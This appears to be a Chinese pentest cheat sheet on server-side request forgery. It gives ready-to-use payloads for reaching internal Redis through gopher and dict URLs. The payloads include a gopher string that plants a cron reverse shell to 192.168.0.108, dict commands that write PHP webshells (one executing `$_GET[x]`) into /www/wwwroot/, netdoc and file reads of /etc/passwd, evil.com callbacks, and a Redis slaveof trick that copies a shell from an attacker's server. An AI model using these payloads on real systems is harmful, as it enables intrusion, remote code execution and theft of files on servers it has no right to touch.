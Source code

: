 	直接访问
	http://www.xx.com/ssrf.php?url=http://192.168.0.1
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/17.png)

	伪造POST请求
	>curl -v 'http://www.xx.com/ssrf.php?url=gopher://192.168.0.10:80/_POST%20/post.php%20HTTP/1.1%250d%250aHost:%20192.168.220.139%250d%250aUser-Agent:%20curl/7.42.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=bbbbb'
  ##### gopher协议的脚本转换
	抓取本地测试的正常请求
	>socat -v tcp-listen:4444,fork tcp-connect:目标IP:6379
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/18.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/19.png)

	将捕获日志保存txt
	使用脚本转换为支持gopher协议的字符串
	转换规则
	如果第一个字符是>或者< 那么丢弃该行字符串，表示请求和返回的时间。
	如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。
	将\r字符串替换成%0d%0a
	空白行替换为%0a
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/20.png)

	本地可执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/21.png)

	远程执行需对空格进行编码后再url编码一次
	*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/192.168.0.108/12138%200>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/22.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/23.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/24.png)
  ##### 协议
	Curl版本需低于7.15.1
	file:可回显时，使用file读取任意文件
	dict:查看端口，操作内网服务
	gopher:可发出get/post请求
	使用gopher协议时，要进行两次url编码
	http/https:探测存活主机
	SFTP：ssrf.php?url=sftp://evil.com:11111/
	TFTP：ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
	LDAP：ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
	netdoc：ssrf.php?url=netdoc:///etc/passwd
  ##### dict协议写shell
	?url=dict://127.0.0.1:6379/set:x:<?php phpinfo();?>
	?url=dict://127.0.0.1:6379/config:set:dir:/www/wwwroot/
	?url=dict://127.0.0.1:6379/config:set:dbfilename:php.php
	?url=dict://127.0.0.1:6379/save
	Unicode编码
	?url=dict://127.0.0.1:6379/set:x:"\x3C\x3Fphp\x20echo `$_GET[x]`\x3B\x3F\x3E"
  ##### slaveof复制shell到目标
	From:http://r3start.net/index.php/2020/05/09/683
	你的redis设置一个shell的键
	Yourredis>FLUSHALL
	Yourredis>set shell "<?php phpinfo();?>"
	?url=dict://127.0.0.1:6379/slaveof:yourredisIP:6379
	?url=dict://127.0.0.1:6379/config:set:dir:/www/wwwroot/